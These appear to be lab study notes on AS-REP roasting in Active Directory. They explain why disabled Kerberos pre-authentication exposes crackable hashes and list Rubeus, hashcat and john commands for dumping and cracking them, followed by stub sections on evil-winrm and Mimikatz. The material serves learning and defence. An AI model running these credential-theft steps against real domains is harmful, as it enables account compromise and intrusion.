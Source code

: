 AS-REP Roasting Overview - 

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

Dumping KRBASREP5 Hashes w/ Rubeus -

	1.) `cd Downloads` - navigate to the directory Rubeus is in
	
	2.) `Rubeus.exe asreproast` - This will run the AS-REP roast command looking 
	for vulnerable users and then dump found vulnerable user hashes.

Crack those Hashes w/ hashcat - 
	
	1.) Transfer the hash from the target machine over to your attacker machine and 
	put the hash into a txt file
	
	2.) Insert 23$ after $krb5asrep$ so that the first line will be 
	$krb5asrep$23$User.....
	
	Use the same wordlist that you downloaded in task 4
	
	3.) `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP 
	Roasting uses hashcat mode 18200

# hashcat

``` bash
hashcat --hash-type 18200 --attack-mode 0 hash.txt passwordlist.txt


18200=> from search about typ of hash 

```

# john

```sh
john --wordlist=passwordlist.txt ASREProastables-john.txt
```

# ==evil-winrm==


# Mimikatz
Prepare Mimikatz & Dump Tickets - 

You will need to run the command prompt as an administrator: use the same credentials as you did to get into the machine. If you don't have an elevated command prompt mimikatz will not work properly.
